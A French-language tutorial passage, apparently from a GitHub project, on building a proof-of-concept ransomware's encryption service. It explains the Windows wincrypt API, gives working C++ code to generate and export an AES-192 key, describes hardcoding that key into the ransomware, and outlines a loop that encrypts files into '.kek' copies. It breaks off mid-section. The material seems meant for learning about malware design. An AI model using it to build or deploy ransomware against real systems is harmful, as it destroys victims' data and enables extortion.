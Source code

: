# Le service de chiffrement

Le coeur de notre ransomware PoC reste son service de chiffrement. Pour cet aspect, Microsoft met à notre disposition la librairie wincrypt, inclue dans le set API Windows (https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptacquirecontexta). Celle-ci sera supposément bientôt dépréciée, et remplacée par le standard CNG (https://docs.microsoft.com/en-us/windows/win32/seccng/cng-portal et https://docs.microsoft.com/fr-fr/windows/win32/seccng/encrypting-data-with-cng), mais en attendant, nous nous en contenterons. 

>Afin de complaire à nos grands amis de l'OQLF, de l'ANSSI, et de l'Académie Française, l'auteur utilisera le terme "chiffrer" au lieu d'encrypter.

## La gestion cryptographique avec l'API Windows ; théorie

Pour tout ce qui touche à la génération d'une clé et à la logique de chiffrement, le trio de fonctions le plus utiles dans l'API Windows restent :

### CryptAcquireContextA

Qui nous permet l'acquisition d'une handle vers le container de clé d'un fournisseur de services cryptographiques (CSP selon la doc Microsoft). Cette handle sera ré-utilisée par les autres fonctions de wincrypt.

```cpp
BOOL CryptAcquireContextA(
  [out] HCRYPTPROV *phProv,
  [in]  LPCSTR     szContainer,
  [in]  LPCSTR     szProvider,
  [in]  DWORD      dwProvType,
  [in]  DWORD      dwFlags
);
```

### CryptGenKey

Qui permet la génération de notre clé.

```cpp
BOOL CryptGenKey(
  [in]  HCRYPTPROV hProv,
  [in]  ALG_ID     Algid,
  [in]  DWORD      dwFlags,
  [out] HCRYPTKEY  *phKey
);
```

### CryptExportKey

Export de la clé. Utilisé deux fois, d'abord pour calculer la longueur de notre futur "blob", puis pour remplir celui-ci avec une structure de type PLAINTEXTKEYBLOB, avec entre les deux un petit malloc à notre blob en utilisant la longueur du blob calculée la première fois.

La fonction :
```cpp
BOOL CryptExportKey(
  [in]      HCRYPTKEY hKey,
  [in]      HCRYPTKEY hExpKey,
  [in]      DWORD     dwBlobType,
  [in]      DWORD     dwFlags,
  [out]     BYTE      *pbData,
  [in, out] DWORD     *pdwDataLen
);
```

La structure en question. Pour une clé AES-192, notre blob fera donc par exemple un total de 36 bytes

```cpp
typedef struct _PLAINTEXTKEYBLOB {
  BLOBHEADER hdr;
  DWORD      dwKeySize;
  BYTE       rgbKeyData[];
} PLAINTEXTKEYBLOB, *PPLAINTEXTKEYBLOB;
```

## La gestion cryptographique avec l'API Windows : pratique.

Voilà donc à quoi ressemble notre code final pour la génération de clé


```cpp
  int genkey(){

  HCRYPTPROV prov = NULL;
  HCRYPTKEY clé = NULL;
  DWORD bloblen = 0;
  BYTE* blob;
  bool ok;

  if (CryptAcquireContextW(&prov, 0, 0, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {

    std::cout << "Context acquired" << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Failure to acquire context" << d << std::endl;
    return -1;
  }

  if (CryptGenKey(prov, CALG_AES_192, 0x00C00000 | CRYPT_EXPORTABLE, &clé)) {
    std::cout << "Key Generated : " << clé << std::endl;

  }
  else {
    DWORD d = GetLastError();
    std::cout << "Failure to generate key, error code : " << d << std::endl;
    CryptDestroyKey(clé);
    CryptReleaseContext(prov, 0);
    return -1;

  }


  if (CryptExportKey(clé, 0, PLAINTEXTKEYBLOB, 0, NULL, &bloblen)) {

    std::cout << "Size of the blob determined : " << bloblen << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Error calculating the length, error code : " << d << std::endl;
    return -1;
  }

  if (blob = (BYTE*)malloc(bloblen)) {

    std::cout << "Memory has been allocated to the blob :" << sizeof(blob) << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Out of memory, error code : " << d << std::endl;
    return -1;
  }
  
  ok = CryptExportKey(clé, 0, PLAINTEXTKEYBLOB, 0, blob, &bloblen);

  if (ok == FALSE) {

    DWORD d = GetLastError();
    std::cout << "Error exporting key, error code : " << d << std::endl;
    free(blob);
    return -1;
  }
  else {
    std::cout << "Content written to the blob" << std::endl;
    std::cout << "Here's the raw blob value :" << blob << std::endl;

    std::ofstream bytefile("byte.txt",std::ios::binary);
    bytefile.write((const char*)blob,sizeof(blob));
    bytefile.close();

  }

return 0;
}
  ```

  Une fois celle-ci créée, elle peut être ré-importée (dans notre cas sous la forme d'un array de bytes hardcodé) lorsque le ransomware s'exécutera sur la machine de test cible via la fonction CryptImportKey (qui requiert un CSP valide, et donc l'exécution locale de CryptAcquireContextW au préalable) :

```cpp
BOOL CryptImportKey(
  [in]  HCRYPTPROV hProv,
  [in]  const BYTE *pbData,
  [in]  DWORD      dwDataLen,
  [in]  HCRYPTKEY  hPubKey,
  [in]  DWORD      dwFlags,
  [out] HCRYPTKEY  *phKey
);
```

## Le chiffrement des fichiers avec une clé : théorie

L'idée reste simple. 

Tout d'abord, créer deux handles : la première pour le fichier source, et la deuxième pour le fichier de destination, qui sera le résultat de notre encryption. La handle de destination, en utilisant l'argument OPEN_ALWAYS, créera le fichier de destination ex-nihilo , au format ".kek".

Après l'ouverture des deux handles, nous lisons une plage de bytes pré-déterminée depuis le fichier source, l'insérons dans un buffer, chiffrons ledit buffer, puis l'insérons dans le fichier de destination. L'opération est répétée jusqu'à ce que le fichier d'origine aie été intégralement chiffré. Simple, non ?

Pour ce faire, nous allons utiliser un trio de fonctions spécifiques ;

### 